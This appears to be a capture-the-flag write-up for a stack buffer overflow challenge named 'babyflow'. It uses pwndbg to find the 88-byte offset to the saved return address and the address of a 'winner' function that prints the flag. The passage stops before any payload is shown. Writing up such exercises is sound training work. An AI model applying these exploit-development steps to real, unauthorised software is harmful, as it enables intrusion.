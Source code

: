 ```
   0x00000000004012bb <+185>:	mov    rsi,rdx
   0x00000000004012be <+188>:	mov    rdi,rax
   0x00000000004012c1 <+191>:	call   0x401080 <strcmp@plt>
   0x00000000004012c6 <+196>:	mov    DWORD PTR [rbp-0x10],eax
   0x00000000004012c9 <+199>:	cmp    DWORD PTR [rbp-0x10],0x0
   0x00000000004012cd <+203>:	jne    0x4012e7 <main+229>
   0x00000000004012cf <+205>:	mov    eax,0x0
   0x00000000004012d4 <+210>:	call   0x4011d2 <white>
   0x00000000004012d9 <+215>:	lea    rdi,[rip+0xe00]        # 0x4020e0
   0x00000000004012e0 <+222>:	call   0x401030 <puts@plt>
   0x00000000004012e5 <+227>:	jmp    0x4012f3 <main+241>
   0x00000000004012e7 <+229>:	lea    rdi,[rip+0xe1b]        # 0x402109
   0x00000000004012ee <+236>:	call   0x401030 <puts@plt>
   0x00000000004012f3 <+241>:	mov    eax,0x0
   0x00000000004012f8 <+246>:	leave  
   0x00000000004012f9 <+247>:	ret    
```

```shell
pwndbg> b *0x00000000004012b3
Breakpoint 1 at 0x4012b3
pwndbg> r
Starting program: /home/crystal/Downloads/CTF-CSCBE/pwn/BOF/babyflow 
I made this binary so that the flag can never be obtained!
However, you can take a guess if you want!
Enter your guess and hope for the best...
abc123
```
We set a breakpoint right after `gets` (our input), followed by entering a string.

```shell
pwndbg> i f
Stack level 0, frame at 0x7fffffffdf10:
 rip = 0x4012b3 in main; saved rip = 0x7ffff7e0cd0a
 called by frame at 0x7fffffffdfe0
 Arglist at 0x7fffffffdf00, args: 
 Locals at 0x7fffffffdf00, Previous frame's sp is 0x7fffffffdf10
 Saved registers:
  rbp at 0x7fffffffdf00, rip at 0x7fffffffdf08
pwndbg> search --string abc123
[heap]          0x405480 'abc123\ngnhvpkqmagwt'
[stack]         0x7fffffffdeb0 0x333231636261 /* 'abc123' */
```

We can see that RIP (ret address) is set to `0x7fffffffdf08`, while as our entered string is located at `0x7fffffffdeb0`.

Substracting our string address from RIP gives us the buffer size.
`0x7fffffffdf08` - `0x7fffffffdeb0` = `0x58` (or 88 in decimal).

Next, we determine our `winner` function (which prints the flag): 
```shell
pwndbg> p winner
$1 = {<text variable, no debug info>} 0x4011a2 <winner>
```
